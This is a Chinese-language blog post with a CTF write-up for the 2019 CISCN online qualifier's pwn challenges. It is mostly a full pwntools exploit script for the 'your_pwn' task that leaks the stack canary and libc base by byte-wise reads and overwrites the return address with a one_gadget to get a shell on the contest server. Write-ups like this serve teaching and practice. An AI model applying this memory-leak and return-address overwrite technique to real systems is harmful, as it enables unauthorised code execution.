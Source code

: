 ```yaml
---
title: CISCN_2019_线上
date: 2019-04-22 10:25:30
tags:
---
```

PWN部分 除了VM

# Sart
* 一共6题pwn题 只解出5题
* PWN题总体来说除了我不会做的难度不大.从分数看来相比去年各个战队对pwn题的重视程度普遍提高
* 无奈从没pwn过VM最后一题挣扎了半天也没什么效果等其他队伍wp出来了再好好学习一波
# your_pwn
热身签到题,随便看,随便改.
无奈我太慌张了脑子一热居然上手就泄露canary...
泄漏完了就在想我是谁我在干什么..
正确的做法是泄露libc 将返回地址改成one就可以了...
不想改exp直接放我那个傻逼exp把..
```python
from pwn import *
#p=process('./pwn')
p=remote("39.106.224.151",57856)
name="n132"
p.sendlineafter("name:",name)
for x in range(7):
	p.sendlineafter("index\n",str(0x149+6-x))
	p.readuntil("(hex) ")
	re=int("0x"+p.readline()[:-1],16)
	re=re&0xff
	canary=re+canary*0x100
	
	p.sendlineafter("value\n",str(re))

base=0

for x in range(6):
	p.sendlineafter("index\n",str(0x278+5-x))
	p.readuntil("(hex) ")
	re=int("0x"+p.readline()[:-1],16)
	re=re&0xff
	base=re+base*0x100
	p.sendlineafter("value\n",str(re))
base=base-(0x7ffff7a2d830-0x00007ffff7a0d000)
log.info(hex(base))
tmp=0
one=0x45216+base
log.info(hex(one))
l=[0xff0000000000,0xff00000000,0xff000000,0xff0000,0xff00,0xff]
for x in range(6):
	p.sendlineafter("index\n",str(0x278+5-x))
	p.readuntil("(hex) ")
	re=int("0x"+p.readline()[:-1],16)
	re=re&0xff
	base=re+base*0x100
	p.sendlineafter("value\n",str((one&l[x])>>(8*(5-x))))
context.log_level='debug'
for x in range(22):
	p.sendlineafter("index\n",str(0))
	p.sendlineafter("value\n",str(0))
p.sendlineafter("es/no)? ","no")
```